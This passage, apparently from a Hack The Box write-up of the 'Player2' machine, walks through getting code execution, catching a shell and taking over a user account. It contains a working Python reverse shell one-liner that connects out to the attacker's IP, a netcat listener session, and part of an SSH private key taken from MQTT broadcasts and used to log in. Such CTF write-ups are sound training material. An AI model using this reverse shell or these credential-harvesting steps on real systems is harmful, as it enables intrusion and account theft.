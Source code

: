 ```bash
sudo tcpdump -i tun0
08:18:49.392816 IP p2 > 10.10.14.7: ICMP echo request, id 34815, seq 1, length 64
08:18:49.392859 IP 10.10.14.7 > p2: ICMP echo reply, id 34815, seq 1, length 64
[snip]
08:18:52.385493 IP p2 > 10.10.14.7: ICMP echo request, id 34815, seq 4, length 64
08:18:52.385534 IP 10.10.14.7 > p2: ICMP echo reply, id 34815, seq 4, length 64
```
As we now can execute code on the remote machine we have again a couple of options:
- writing reverse shell code in there
- upload a webshell via _wget_ and probably a lot more

I opted to go for the reverse shell code and after trying a few different options the python reverse shell code worked (yea it's long and ugly but working is working):
{: .text-justify} 
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and boom - we've got a shell on the box - but still no user flag :/ But we notice a MQTT service running on port 1883:
{: .text-justify}
```bash
kali@kali:~/HTB/boxes/player2$ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.170] 33464
www-data@player2:/var/www/product/protobs$ cat /home/observer/user.txt
cat: /home/observer/user.txt: Permission denied
www-data@player2:/var/www/product/protobs$ ss -tulpn
Netid  State    Recv-Q   Send-Q      Local Address:Port     Peer Address:Port   
udp    UNCONN   0        0           127.0.0.53%lo:53            0.0.0.0:*      
tcp    LISTEN   0        80              127.0.0.1:3306          0.0.0.0:*      
tcp    LISTEN   0        128         127.0.0.53%lo:53            0.0.0.0:*      
tcp    LISTEN   0        128               0.0.0.0:22            0.0.0.0:*      
tcp    LISTEN   0        100             127.0.0.1:1883          0.0.0.0:*      
tcp    LISTEN   0        128               0.0.0.0:8545          0.0.0.0:*      
tcp    LISTEN   0        128                     *:80                  *:*      
tcp    LISTEN   0        128                  [::]:22               [::]:*  
```
We can subscribe to all topics using `mosquitto_sub -t '$SYS/#'` and are disappointed because we don't get any useful info. However keeping it running for some time we notice that every once in a while a SSH private key is broadcasted:
{: .text-justify}
```shell
Retrieving the key from aws instance
Key retrieved..
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA7Gc/OjpFFvefFrbuO64wF8sNMy+/7miymSZsEI+y4pQyEUBA
[snip]
/1i6dn3iKSmL75aVKgQ5pJHkPYiTWTRq2a/y8g/leCrvPDM19KB5Zr0Z1tCw5XCz
iZHQGq04r9PMTAFTmaQfMzDy1Hfo8kZ/2y5+2+lC7wIlFMyYze8n8g==
-----END RSA PRIVATE KEY-----
```
And for the first time we are lucky as the key is not password protected and we can connect right away to own user:
{: .text-justify}
```shell
kali@kali:~/HTB/boxes/player2$ ssh -i id_rsa observer@10.10.10.170
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 5.2.5-050205-generic x86_64)
[snip]
observer@player2:~$ cat user.txt 
CDE09**********************41251
```
